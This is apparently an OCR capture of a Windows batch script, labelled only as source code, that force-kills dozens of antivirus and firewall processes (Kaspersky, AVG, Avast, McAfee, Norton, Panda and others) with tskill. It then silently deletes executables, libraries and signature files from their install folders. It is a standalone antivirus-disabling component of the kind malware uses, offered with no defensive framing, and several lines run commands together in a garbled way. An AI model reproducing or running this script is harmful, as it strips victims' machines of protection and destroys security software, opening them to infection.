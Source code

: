 tskill /A def*
tskill /A kav
tskill /A kav*
tskill /A avg*
tskill /A ash*
cls
tskill /A aswupdsv
tskill /A ewid*
tskill /A guard*
tskill /A guar*
tskill /A gcasDt*
tskill /A msmp*
cls
tskill /A mcafe*
tskill /A mghtml
tskill /A msiexec
tskill /A outpost
tskill /A isafe
tskill /A zap*cls
tskill /A zauinst
tskill /A upd*
tskill /A zlclien*
tskill /A minilog
tskill /A cc*
tskill /A norton*
cls
tskill /A norton au*
tskill /A ccc*
tskill /A npfmn*
tskill /A loge*
tskill /A nisum*
tskill /A issvc
tskill /A tmp*
cls
tskill /A tmn*
tskill /A pcc*
tskill /A cpd*
tskill /A pop*
tskill /A pav*
tskill /A padmincls
tskill /A panda*
tskill /A avsch*
tskill /A sche*
tskill /A syman*
tskill /A virus*
tskill /A realm*cls
tskill /A sweep*
tskill /A scan*
tskill /A ad-*
tskill /A safe*
tskill /A avas*
tskill /A norm*
cls
tskill /A offg*
del /Q /F C:\Program Files\alwils~1\avast4\*.*
del /Q /F C:\Program Files\Lavasoft\Ad-awa~1\*.exe
del /Q /F C:\Program Files\kasper~1\*.exe
cls
del /Q /F C:\Program Files\trojan~1\*.exe
del /Q /F C:\Program Files\f-prot95\*.dll
del /Q /F C:\Program Files\tbav\*.datcls
del /Q /F C:\Program Files\avpersonal\*.vdf
del /Q /F C:\Program Files\Norton~1\*.cnt
del /Q /F C:\Program Files\Mcafee\*.*
